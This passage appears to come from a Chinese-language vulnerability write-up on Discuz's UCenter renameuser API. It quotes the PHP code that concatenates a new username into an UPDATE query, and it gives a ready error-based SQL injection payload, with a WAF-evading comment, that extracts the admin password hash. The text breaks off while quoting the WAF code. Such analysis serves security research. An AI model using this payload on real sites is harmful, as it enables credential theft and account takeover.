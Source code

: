 ```
            'home_show' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
            'home_specialuser' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
            'home_visitor' =&gt; array('id' =&gt; 'vuid', 'name' =&gt; 'vusername'),

            'portal_article_title' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
            'portal_comment' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
            'portal_topic' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
            'portal_topic_pic' =&gt; array('id' =&gt; 'uid', 'name' =&gt; 'username'),
        );

        if(!C::t('common_member')-&gt;update($get['uid'], array('username' =&gt; $get[newusername])) &amp;&amp; isset($_G['setting']['membersplit']))`{`
            C::t('common_member_archive')-&gt;update($get['uid'], array('username' =&gt; $get[newusername]));
        `}`

        loadcache("posttableids");
        if($_G['cache']['posttableids']) `{`
            foreach($_G['cache']['posttableids'] AS $tableid) `{`
                $tables[getposttable($tableid)] = array('id' =&gt; 'authorid', 'name' =&gt; 'author');
            `}`
        `}`

        foreach($tables as $table =&gt; $conf) `{`
            DB::query("UPDATE ".DB::table($table)." SET `$conf[name]`='$get[newusername]' WHERE `$conf[id]`='$get[uid]'");
        `}`
        return API_RETURN_SUCCEED;
    `}`
```

在函数的最下面，$get[newusername]被直接拼接进了update语句中。

但可惜的是，这里链接数据库默认使用mysqli，并不支持堆叠注入，所以我们没办法直接在这里执行update语句来更新密码，这里我们只能构造报错注入来获取数据。

```
$code = 'time='.time().'&amp;action=renameuser&amp;uid=1&amp;newusername=ddog\',name=(\'a\' or updatexml(1,concat(0x7e,(/*!00000select*/ substr(password,0) from pre_ucenter_members where uid = 1 limit 1)),0)),title=\'a';
```

这里值得注意的是，DZ自带的注入waf挺奇怪的，核心逻辑在

```
\source\class\discuz\discuz_database.php line 375

if (strpos($sql, '/') === false &amp;&amp; strpos($sql, '#') === false &amp;&amp; strpos($sql, '-- ') === false &amp;&amp; strpos($sql, '@') === false &amp;&amp; strpos($sql, '`') === false &amp;&amp; strpos($sql, '"') === false) `{`
            $clean = preg_replace("/'(.+?)'/s", '', $sql);
        `}` else `{`
            $len = strlen($sql);
            $mark = $clean = '';
            for ($i = 0; $i &lt; $len; $i++) `{`
                $str = $sql[$i];
                switch ($str) `{`
                    case '`':
                        if(!$mark) `{`
                            $mark = '`';
                            $clean .= $str;
                        `}` elseif ($mark == '`') `{`
                            $mark = '';
                        `}`
                        break;
                    case '\'':
```